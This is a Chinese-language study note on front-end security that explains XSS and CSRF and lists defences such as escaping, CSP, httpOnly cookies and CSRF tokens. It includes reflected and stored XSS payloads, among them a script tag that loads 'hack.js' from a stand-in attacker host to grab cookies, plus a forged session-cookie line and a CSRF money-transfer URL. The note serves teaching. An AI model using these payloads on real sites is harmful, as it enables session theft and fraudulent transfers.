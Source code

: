 # 前端安全

## XSS

跨站脚本攻击有可能造成以下影响:

利用虚假输入表单骗取用户个人信息。

利用脚本窃取用户的Cookie值，被害者在不知情的情况下，帮助攻击者发送恶意请求。

显示伪造的文章或图片

### 反射型 - url参数直接注入

```
// 普通 http://localhost:3000/?from=china 

// alert尝试 http://localhost:3000/?from=<script>alert(3)</script> 

// 获取Cookie http://localhost:3000/?from=<script src="http://localhost:4000/hack.js"> </script> 

// 短域名伪造 https://dwz.cn/

// 伪造cookie入侵 chrome document.cookie="kaikeba:sess=eyJ1c2VybmFtZSI6Imxhb3dhbmciLCJfZXhwaXJlIjoxNTUzNT Y1MDAxODYxLCJfbWF4QWdlIjo4NjQwMDAwMH0="
```

### 存储型 - 存储到DB后读取时注入

```
// 评论 <script>alert(1)</script> 
// 跨站脚本注入 
我来了<script src="http://localhost:4000/hack.js"></script>
```

### 防范 XSS[#](https://febook.hzfe.org/awesome-interview/book1/network-security#14-防范-xss)

- 对于外部传入的内容进行充分转义。
- 开启 CSP（Content Security Policy，内容安全策略），规定客户端哪些外部资源可以加载和执行，降低 XSS 风险。
- 设置 Cookie httpOnly 属性，禁止 JavaScript 读取 Cookie 防止被窃取

## CSRF

### 例子

1. 受害者 Bob 在银行有一笔存款，通过对银行的网站发送请求 `http://bank.example/withdraw?account=bob&amount=1000000&for=bob2` 可以使 Bob 把 1000000 的存款转到 bob2 的账号下。

2. 通常情况下，该请求发送到网站后，服务器会先验证该请求是否来自一个合法的 session，并且该 session 的用户 Bob 已经成功登陆。

3. 黑客 Mallory 自己在该银行也有账户，他知道上文中的 URL 可以把钱进行转帐操作。Mallory 可以自己发送一个请求给银行：`http://bank.example/withdraw?account=bob&amount=1000000&for=Mallory`。
4. 但是这个请求来自 Mallory 而非 Bob，他不能通过安全认证，因此该请求不会起作用。
5. 这时，Mallory 想到使用 CSRF 的攻击方式，他先自己做一个网站，在网站中放入如下代码： `src=”http://bank.example/withdraw?account=bob&amount=1000000&for=Mallory ”`，并且通过广告等诱使 Bob 来访问他的网站。
6. 当 Bob 访问该网站时，上述 url 就会从 Bob 的浏览器发向银行，而这个请求会附带 Bob 浏览器中的 cookie 一起发向银行服务器。
7. 大多数情况下，该请求会失败，因为他要求 Bob 的认证信息。
8. 但是，如果 Bob 当时恰巧刚访问他的银行后不久，他的浏览器与银行网站之间的 session 尚未过期，浏览器的 cookie 之中含有 Bob 的认证信息。
9. 这时，悲剧发生了，这个 url 请求就会得到响应，钱将从 Bob 的账号转移到 Mallory 的账号，而 Bob 当时毫不知情。
10. 等以后 Bob 发现账户钱少了，即使他去银行查询日志，他也只能发现确实有一个来自于他本人的合法请求转移了资金，没有任何被攻击的痕迹。而 Mallory 则可以拿到钱后逍遥法外

[Cross-site request forgery](https://en.wikipedia.org/wiki/Cross-site_request_forgery)

[CSRF 攻击的应对之道](https://www.ibm.com/developerworks/cn/web/1102_niugang_csrf/)

[阻止 ASP.NET MVC 应用程序中的跨站点请求伪造 (CSRF) 攻击](https://docs.microsoft.com/zh-cn/aspnet/web-api/overview/security/preventing-cross-site-request-forgery-csrf-attacks)

### 解决方法

#### 验证 HTTP Referer

Referer易被篡改

#### 在请求地址中添加 token 并验证

- 原理：服务端生成 CSRF Token （通常存储在 Session 中），用户提交请求时携带上 Token，服务端验证 Token 是否有效。
- 优点：能比较有效的防御 CSRF （前提是没有 XSS 漏洞泄露 Token）。
- 缺点：大型网站中 Session 存储会增加服务器压力，且若使用分布式集群还需要一个公共存储空间存储 Token，否则可能用户请求到不同服务器上导致用户凭证失效；有一定的工作量

#### 在 HTTP 头中自定义属性并验证

#### 验证码